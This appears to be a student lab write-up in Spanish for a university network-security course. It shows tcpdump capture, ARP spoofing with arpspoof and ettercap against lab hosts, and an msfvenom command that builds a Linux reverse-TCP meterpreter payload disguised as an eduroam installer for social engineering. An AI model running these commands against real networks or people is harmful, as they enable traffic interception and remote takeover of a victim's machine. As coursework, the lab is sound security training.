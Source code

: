 


**e) Obtenga el tráfico de entrada y salida legítimo de su interface de red ens33 e investigue los 

servicios, conexiones y protocolos involucrados**. [usar ettercap o tcpdump]

```sh
tcpdump -i ens33 -s 65535 -w my.pcap
scp lsi@10.11.48.143:/home/lsi/my.pcap . # Lo pasamos a la máquina local para analizar con Wireshark
```



**f) Mediante arpspoofing entre una máquina objetivo (víctima) y el router del laboratorio obtenga todas las URL HTTP visitadas por la víctima**. [xdg-open, muestra navegadores web de texto, luego ir a etter.conf y hacer que el navegador por defecto sea el elegido]

Esto de aquí deja sin conexión a la víctima, NO ES PARA LA PRÁCTICA

```sh
arpspoof -i ens33 -t 10.11.48.143 -r 10.11.48.1
# -i is used to enter the network interface name.
# -t is used to enter the target device IP address.
# -r is used to enter the default gateway IP address.
```

-----

Editar en /etc/ettercap/etter.conf:

```sh
remote_browser = w3m
```

```sh
ettercap -T -i ens33 -P remote_browser -q -M arp:remote //10.11.48.142/ //10.11.48.1/
```

**g) Instale metasploit. Haga un ejecutable que incluya un Reverse TCP meterpreter payload para plataformas linux. Inclúyalo en un filtro ettercap y aplique toda su sabiduría en ingeniería social para que una víctima u objetivo lo ejecute**. []

EN EL ATACANTE

Creamos un payload con msfvenom que escuche en el puerto 5555 y donde la máquina que escucha será la mía:

```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.48.152 LPORT=5555 -f elf > eduroam-Linux-UDC.bin
```



Cambiamos los permisos del binario generado para que tenga permisos de ejecución y lo metemos dentro de un tar para que los conserve después de descargarse.

```sh
chmod +x eduroam-Linux-UDC.bin
tar -cvf eduroam-Linux-UDC.tar eduroam-Linux-UDC.bin
```
